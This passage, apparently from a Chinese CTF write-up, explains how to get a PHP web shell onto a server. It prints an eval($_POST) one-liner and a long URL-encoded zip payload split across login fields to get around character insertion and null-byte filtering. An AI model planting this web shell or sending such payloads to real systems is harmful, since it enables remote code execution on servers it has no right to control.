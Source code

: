 所以我们可以写一个shell文件，压缩成压缩包，再写入

但是问题又来了：

1.压缩包中间会被插入" => "，导致无法解压

2.文件名中不可带入%00

那么如何解决呢？

我的做法是随便写一个txt文件，再写一个我们的shell文件

<?php 

@eval($_POST[sky]);

 ?>

然后压缩成zip文件如图：

![](img/26cbba803d03378758843080716007be.png)

由于我们的文件会被拼接"=>"并且文件名不可带%00

所以我们选择输入方法:

username=%50%4B%03%04%0A

password=%00%84%56%42%4C%07%91%35%16%17%00%00%00%17%00%00%00%0B%00%00%00%74%65%73%74%73%6B%79%2E%70%68%70%3C%3F%70%68%70%20%0D%0A%70%68%70%69%6E%66%6F%28%29%3B%0D%0A%20%3F%3E%50%4B%03%04%0A%00%00%00%00%00%AE%4B%42%4C%54%3D%6E%D7%04%00%00%00%04%00%00%00%07%00%00%00%73%6B%79%2E%74%78%74%20%3D%3E%20%50%4B%01%02%3F%00%0A%00%00%00%00%00%84%56%42%4C%07%91%35%16%17%00%00%00%17%00%00%00%0B%00%24%00%00%00%00%00%00%00%20%00%00%00%00%00%00%00%74%65%73%74%73%6B%79%2E%70%68%70%0A%00%20%00%00%00%00%00%01%00%18%00%B5%7B%94%D0%D0%9B%D3%01%7E%46%23%B8%D0%9B%D3%01%7E%46%23%B8%D0%9B%D3%01%50%4B%01%02%3F%00%0A%00%00%00%00%00%AE%4B%42%4C%54%3D%6E%D7%04%00%00%00%04%00%00%00%07%00%24%00%00%00%00%00%00%00%20%00%00%00%40%00%00%00%73%6B%79%2E%74%78%74%0A%00%20%00%00%00%00%00%01%00%18%00%1A%E1%18%44%C5%9B%D3%01%8C%12%56%3F%C5%9B%D3%01%8C%12%56%3F%C5%9B%D3%01%50%4B%05%06%00%00%00%00%02%00%02%00%B6%00%00%00%69%00%00%00%00%00

此时拼接后的文件如图
